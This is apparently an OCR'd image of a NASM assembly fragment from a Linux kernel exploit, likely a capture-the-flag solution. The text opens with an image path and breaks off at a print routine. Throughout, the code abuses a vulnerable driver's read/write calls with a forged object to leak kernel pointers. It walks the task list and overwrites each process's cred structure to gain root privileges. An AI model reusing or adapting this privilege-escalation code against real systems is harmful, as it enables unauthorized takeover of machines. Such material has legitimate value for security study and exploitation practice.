 ```nasm
	mov qword [fake + 8], rbx
        call dump 			; a = &(p->cred)

	mov rbx, qword [a]		; rbx = p->cred
	add rbx, 4
	mov qword [fake + 8], rbx	


	mov qword [fake + 16], 0x20
	mov qword [arg], 3              
        mov qword [arg+8], 0x20         
        mov qword [arg+0x10], fake      ; fake obj
        call write

        mov qword [arg], 0              ; id
        mov qword [arg+8], 0x20         ; size
        mov qword [arg+16], cred        ; overwrite p->cred + 4
        call write


	mov qword [fake + 16], 8

	mov rbx, qword [base]
	mov qword [fake + 8], rbx
	call dump 			; a = &(p->tasks.next)

	mov rbx, qword [a]
	mov qword [base], rbx		; [base] = p->tasks.next

	add qword [i], 1
	cmp qword [i], 25		; make sure to traverse full circular linked list
	jne loop
exit:
	xor rdi, rdi
	mov rax, 0x3c
	syscall


dump:
	mov qword [arg], 3              ; id
        mov qword [arg+8], 0x20         ; size
        mov qword [arg+0x10], fake      ; fake obj
	call write

	mov qword [arg], 0              ; id
        mov qword [arg+8], 8		; size
	mov qword [arg+16], a		; copy to a
        call read
	ret
set:
	mov qword [arg], 3              ; id
        mov qword [arg+8], 0x20         ; size
        mov qword [arg+0x10], fake      ; fake obj
        call write

        mov qword [arg], 0          ; id
        mov qword [arg+8], 8        ; size
        mov qword [arg+16], a       ; copy from a
        call write
        ret

print_a:
	mov rdi, 1
```